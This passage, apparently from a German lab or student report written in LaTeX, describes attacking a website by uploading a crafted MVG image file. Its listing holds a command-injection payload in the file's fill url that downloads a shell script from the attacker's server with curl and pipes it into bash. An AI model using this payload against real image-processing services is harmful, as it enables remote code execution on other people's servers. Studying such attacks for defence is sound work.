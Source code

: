 \subsubsection{Generische angreifende MVG-Datei}

Der Angriffspunkt auf die Website besteht darin eine infizierte MVG-Datei analog zu den einfachen Beispielen oben hochzuladen und somit an Informationen über die Webserver zu kommen.\\

Da, in der MVG nur eine Zeile Platz ist den schädlichen Code zu platzieren, haben wir uns für einen generischen Code entschieden. Hier wird eine .sh-Datei von dem Server des Angreifers heruntergeladen und per Bash ausgeführt.

\begin{lstlisting}[language=MVG, caption=Aufbau generische angreifende MVG-Datei,label={lst:genericmvg}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|curl "http://192.168.16.125:8080/attack"| bash")'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Der Angreifer kann also auf seinem Server entscheiden, welcher Code ausgeführt wird und die Implementierung jederzeit erweitern.\\

Der Aufbau des Webservers des Angreifers wird im kommenden Absatz beschrieben.
